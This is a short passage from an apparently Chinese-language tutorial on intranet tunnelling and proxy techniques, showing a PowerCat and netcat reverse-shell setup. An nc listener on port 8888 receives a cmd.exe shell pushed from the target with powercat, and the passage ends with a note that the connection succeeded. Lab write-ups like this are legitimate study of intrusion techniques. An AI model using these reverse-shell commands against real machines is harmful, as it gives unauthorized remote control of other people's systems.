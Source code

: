 ![image-20241019231946589](内网隧道代理技术/image-20241019231946589.png)	

```
PowerCat和nc反向连接
首先攻击机监听端口
nc64.exe -l -p 8888 -vv
然后控制靶机把shell连接过来。
powercat -c 192.168.15.1 -p 8888 -v -e cmd.exe
```

![image-20241019232134511](内网隧道代理技术/image-20241019232134511.png)	

![image-20241019232227677](内网隧道代理技术/image-20241019232227677.png)	

```
于是连接过来了
```

